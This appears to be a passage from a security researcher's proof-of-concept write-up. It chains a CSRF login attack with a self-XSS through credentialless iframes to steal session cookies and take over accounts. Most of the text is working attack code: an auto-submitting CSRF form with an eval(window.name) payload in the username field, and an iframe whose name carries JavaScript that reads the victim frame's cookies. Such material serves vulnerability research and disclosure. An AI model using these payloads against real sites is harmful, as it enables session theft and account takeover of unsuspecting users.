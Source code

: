 1. Create a classic CSRF login form:
```html
<html>
<body>
  <form action="http://victim.domain/login" method="POST">
    <input type="hidden" name="username" value="attacker_username<img src=x onerror=eval(window.name)>" />
    <input type="hidden" name="password" value="Super_s@fe_password" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```

2. Direct the target to the following page:
```html
<iframe name="window.top[1].document.body.innerHTML = 'edited by slonser</br>' + 'Our cookie is: ' + document.cookie + '\nVictim cookie is: ' + window.top[1].document.cookie;" src="./logi-csrf-poc.html" width="40%" height="500px" credentialless></iframe>
<iframe src="http://localhost:3004/" width="40%" height="500px"></iframe>
```

3. (Optional) Redirect the user in the credentialless iframe to a URL that triggers the SELF-XSS, which will then execute the desired actions (session theft/ATO) within `window.top[1]`. Here, it's useful to note that all credentialless frames within one document share the same context. If you already have `<iframe src=//example.com credentialless>` on the page that has set cookies and localStorage, adding `<iframe src=//example.com/path1 credentialless>` will have access to the same storage data as the first credentialless frame.

In our case, it would look something like this:
![](./8.png)
